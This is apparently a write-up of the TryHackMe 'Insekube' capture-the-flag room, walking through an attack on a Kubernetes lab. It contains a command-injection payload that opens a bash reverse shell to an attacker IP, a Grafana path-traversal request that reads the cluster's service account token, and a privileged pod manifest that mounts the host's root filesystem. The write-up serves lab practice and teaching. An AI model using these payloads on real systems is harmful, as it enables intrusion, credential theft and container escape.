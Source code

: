 # <a href="https://tryhackme.com/room/insekube"> Insekube </a>
### Exploiting Kubernetes by leveraging a Grafana LFI vulnerability

### Task 1

nmap -p- -Pn -sC -sT -A --reason -o nmap.scan [Target IP]
This will give us answer rot the first question.


### Task 2

On website we can perform a command injection attack by typing various command like ;whoami ;id ;ls
Author tells us that flag is in Envrometal variable so lets  type ;printenv
![image](https://user-images.githubusercontent.com/58551072/155545434-44c7d8b8-2811-4078-916e-8660a5ce6b6e.png)

We have to establish reverse shell with target machine in order to complete further task
There is no netcat or python avaliable on machine for us to use. 
We have to use Command injection attack again
127.0.0.1 && bash &>/dev/tcp/[Attacker IP]/[PORT] <&1

### Task 3

No answer needed

### Task 4

We have access to the machine. All we need to do is follow instructions. 
Flag is there, you can analyse it with online tools

### Task 5

Running env you will see there is a Grafana service running in the cluster.
We need to find what version of Grafana is used and search for vulnerabilities
Still in console that is connected to the target machine
curl http://grafana:3000/login/ - Text is long but it is easy to find ;)
 

### Task 6

I had trouble with running exploit but when googling around I have found solution
curl --path-as-is http://grafana:3000/public/plugins/alertlist/../../../../../../../../var/run/secrets/kubernetes.io/serviceaccount/token
Now we have token
To get service account name we can use option "get serviceaccount" and token that we have found
To get next two answers all we need to do is fllow instruction. Flag 3 is in same place as flag 1

### Task 7

First we need to prepare .yaml file
```
apiVersion: v1
kind: Pod
metadata:
  name: everything-allowed-exec-pod
  labels:
    app: pentest
spec:
  hostNetwork: true
  hostPID: true
  hostIPC: true
  containers:
  - name: everything-allowed-pod
    image: ubuntu
    imagePullPolicy: IfNotPresent
    securityContext:
      privileged: true
    volumeMounts:
    - mountPath: /host
      name: noderoot
    command: [ "/bin/sh", "-c", "--" ]
    args: [ "while true; do sleep 30; done;" ]
  #nodeName: k8s-control-plane-node # Force your pod to run on the control-plane node by uncommenting this line and changing to a control-plane node name
  volumes:
  - name: noderoot
    hostPath:
      path: /
```


 
To get file into TARGET machine lets start ftp server on our machine
then simply curl http://ATTACKER IP:PORT/file.yaml
to get last flag use find / -type f -name root.txt
   

